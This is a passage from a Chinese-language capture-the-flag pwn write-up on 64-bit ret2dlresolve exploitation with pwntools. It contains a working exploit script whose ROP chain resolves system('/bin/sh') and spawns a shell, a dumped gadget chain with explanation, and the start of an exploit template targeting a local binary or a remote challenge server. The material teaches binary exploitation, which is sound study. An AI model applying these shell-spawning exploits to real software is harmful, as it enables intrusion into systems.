 ```python
offset = 0x108
read_length = 0x180

rop = ROP(elf)
dlresolve = Ret2dlresolvePayload(elf, symbol='system', args=["/bin/sh"])

rop.read(0, dlresolve.data_addr)
rop.ret2dlresolve(dlresolve)
raw_rop = rop.chain()

payload = flat({offset:raw_rop, read_length:dlresolve.payload})
sh.send(payload)
print(rop.dump())
sh.interactive()
```

可以看到，实际上和`32`位的`exp`并无区别，仍然只需要如下两个参数：

- `offset`，表示溢出到程序返回地址的偏移
- `read_length`，表示程序`read`的最大长度

值得注意的是，`ROP`模块也并不是万能的，例如笔者在编译题目时，发现若程序内不含有控制`rdi`和`rsi`的`gadget`，是无法完成利用的。

## 不使用ROP模块的打法

同样的，我们通过上述的`rop.dump()`来看看其是怎么实现的：

```assembly
0x0000:         0x4011d3 pop rdi; ret
0x0008:              0x0 [arg0] rdi = 0
0x0010:         0x4011d1 pop rsi; pop r15; ret
0x0018:         0x404e00 [arg1] rsi = 4214272
0x0020:      b'iaaajaaa' <pad r15>
0x0028:         0x401044 read
0x0030:         0x4011d3 pop rdi; ret
0x0038:         0x404e48 [arg0] rdi = 4214344
0x0040:         0x401020 [plt_init] system
0x0048:            0x30e [dlresolve index]
```

其中第一步的`0x404e00`就是`dlresolve.data_addr`，也就是程序自动挑选的一块存放`dlresolve.payload`的可写区域，我们可以任意挑选。

观察到，其实与`32`位相比，只有传参的变化：我们不再需要将参数放到栈上，而是利用`gadgets`存放到寄存器里。

需要注意的是`dlresolve index`仍然在栈上！

那么，我们可以写`exp`模板如下：

```python
from pwn import *
from LibcSearcher import *
from ae64 import AE64
from ctypes import cdll

filename = './pwn'
context.arch='amd64'
context.log_level = "debug"
context.terminal = ['tmux', 'neww']
local = 1
all_logs = []
elf = ELF(filename)
libc = elf.libc

if local:
    sh = process(filename)
else:
    sh = remote('node4.buuoj.cn', )
```